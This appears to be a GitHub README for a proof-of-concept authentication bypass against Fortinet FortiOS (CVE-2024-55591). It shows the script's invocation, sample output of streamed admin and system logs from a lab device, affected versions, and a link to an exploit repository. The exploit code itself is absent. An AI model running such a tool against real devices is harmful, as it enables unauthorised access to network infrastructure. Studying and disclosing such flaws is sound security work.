


# CVE-2024-55591

A Fortinet FortiOS Authentication Bypass Vulnerable  PoC

# Description

Use this poc,you can bypass authentication and see system log

# USEAGE

```
sysirq@sysirq-machine:~/Work/Fortinet/FortiGate_7_0_16/CVE-2024-55591$ python3 poc.py
usage: poc.py [-h] --target TARGET [--port PORT]
poc.py: error: the following arguments are required: --target/-t
```

# Demo







# poc output


```
sysirq@sysirq-machine:~/Work/Fortinet/FortiGate_7_0_16/CVE-2024-55591$ python3 poc.py -t 192.168.182.188 -p 443
WebSocket handshake successful!
{'fin': 1, 'rsv': (0, 0, 0), 'opcode': 1, 'mask': 0, 'payload_length': 22, 'payload_data': b'{"type":"initialized"}'}
{'fin': 1, 'rsv': (0, 0, 0), 'opcode': 1, 'mask': 0, 'payload_length': 578, 'payload_data': b'{"type":"eventLog","payload":{"id":32002,"name":"LOG_ID_ADMIN_LOGIN_FAIL","vdom":"root","log":{"date":"2025-01-21","time":"04:25:33","eventtime":"1737462333650070902","tz":"-0800","logid":"0100032002","type":"event","subtype":"system","level":"alert","vd":"root","logdesc":"Admin login failed","sn":"0","user":"asdasd","ui":"https(192.168.182.135)","method":"https","srcip":"192.168.182.135","dstip":"192.168.182.188","action":"login","status":"failed","reason":"name_invalid","msg":"Administrator asdasd login failed from https(192.168.182.135) because of invalid user name"}}}'}


{'fin': 1, 'rsv': (0, 0, 0), 'opcode': 1, 'mask': 0, 'payload_length': 360, 'payload_data': b'{"type":"eventLog","payload":{"id":41001,"name":"LOG_ID_UPD_FGT_FAIL","vdom":"root","log":{"date":"2025-01-21","time":"04:26:33","eventtime":"1737462393458974985","tz":"-0800","logid":"0100041001","type":"event","subtype":"system","level":"critical","vd":"root","logdesc":"FortiGate update failed","status":"update","msg":"Fortigate scheduled update failed"}}}'}


{'fin': 1, 'rsv': (0, 0, 0), 'opcode': 1, 'mask': 0, 'payload_length': 593, 'payload_data': b'{"type":"eventLog","payload":{"id":32001,"name":"LOG_ID_ADMIN_LOGIN_SUCC","vdom":"root","log":{"date":"2025-01-21","time":"04:27:25","eventtime":"1737462444847679040","tz":"-0800","logid":"0100032001","type":"event","subtype":"system","level":"information","vd":"root","logdesc":"Admin login successful","sn":"1737462444","user":"admin","ui":"https(192.168.182.135)","method":"https","srcip":"192.168.182.135","dstip":"192.168.182.188","action":"login","status":"success","reason":"none","profile":"super_admin","msg":"Administrator admin logged in successfully from https(192.168.182.135)"}}}'}
{'fin': 1, 'rsv': (0, 0, 0), 'opcode': 1, 'mask': 0, 'payload_length': 610, 'payload_data': b'{"type":"eventLog","payload":{"id":40704,"name":"LOG_ID_EVENT_SYS_PERF","vdom":"root","log":{"date":"2025-01-21","time":"04:28:10","eventtime":"1737462490052966824","tz":"-0800","logid":"0100040704","type":"event","subtype":"system","level":"notice","vd":"root","logdesc":"System performance statistics","action":"perf-stats","cpu":"0","mem":"7","totalsession":"10","disk":"1","bandwidth":"12/2","setuprate":"0","disklograte":"0","fazlograte":"0","freediskstorage":"28521","sysuptime":"7221","waninfo":"N/A","msg":"Performance statistics: average CPU: 0, memory:  7, concurrent sessions:  10, setup-rate: 0"}}}'}
```


# exploit demo

https://github.com/sysirq/fortios-auth-bypass-exploit-CVE-2024-55591

# Affected Versions

- FortiOS 7.0.0 through 7.0.16
- FortiProxy 7.0.0 through 7.0.19
- FortiProxy 7.2.0 through 7.2.12

